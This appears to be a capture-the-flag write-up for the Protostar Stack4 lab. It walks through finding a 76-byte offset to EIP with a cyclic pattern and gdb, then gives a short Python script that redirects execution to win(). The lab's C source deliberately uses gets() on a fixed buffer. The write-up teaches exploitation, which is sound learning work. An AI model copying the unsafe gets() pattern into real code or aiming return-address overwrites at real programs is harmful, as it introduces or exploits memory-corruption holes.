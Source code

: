 # Stack4 Challenge

This challenge is a small variation of the previous one, only in this case we have no function pointer. Therefore, in order to call `win()` we have to alter the **Instruction pointer**.

You can find the source code here <a href="https://exploit-exercises.lains.space/protostar/stack4/">here</a>.

```c

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

**Disassembled**

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack4/images/disas_st4.png">

Let's create a random pattern so we can identify when our instruction pointer is overwritten. Visit https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html so you can quickly generate a pattern and copy it.

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack4/images/pattern.png">

Now open the program in gdb and run it giving as input the pattern generated from the above link.

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack4/images/inputpattern.png">

We can see that **eip** was overwritten with **0x63413563**.
We can find that this corresponds to ASCII **_c5Ac_**

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack4/images/pyres.png">

List in python is backwards because of **Little-Endian** format.

Revisiting the pattern page and inputting **c5Ac** we find that the offset needed to reach **EIP** is **76** bytes.

<!-- findpatterofsset -->

So let's once again find where `win()` is 

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack4/images/winloc.png">

Then simply create the below python script to redirect execution flow to `win()`

```python
#!/usr/bin/env python
from struct import pack
prepend = b"A"  * 76
prepend += pack("<L",0x80483f4)
print prepend
```

Exploit

<!-- confbehaviout -->

### Success!
